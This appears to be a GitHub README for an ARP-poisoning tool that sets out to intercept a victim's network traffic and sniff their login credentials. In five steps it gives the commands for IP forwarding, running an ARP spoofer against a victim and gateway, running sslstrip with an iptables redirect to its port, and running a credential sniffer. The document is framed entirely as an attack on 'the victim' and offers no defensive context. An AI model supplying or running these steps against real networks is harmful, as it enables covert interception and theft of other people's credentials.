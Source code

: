 # Posion-Arp

This is tool can poison the Arp table of the victim as well as router and sniff all the credentials of the victim.It works with HTTP as well as HTTPS but not with HSTS.

Step 1:- Allow traffic to pass through the Hacker machine with the below command 

$ echo 1 > /proc/sys/net/ipv4/ip_forward

![](/images/traffic_bypass.png)


Step 2:- Now run the arp-spoofer  with the below command 

$ python3 arp_spoofer.py --gateway  ap_ip --target victim_ip

![] (/images/spoof.png)

Step 3: Run the sslstrip with the below command

$ sslstrip

![] (/images/ssltrip.png)

Step 4: forward all the traffic to sslstrip port using iptables with the following command 

$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT  --to-port 10000 

![] (/images/iptables.png)


Step 5: Run the sniffer with the following command

$ python3 sniffer.py -i interface

![] (/images/login.png)






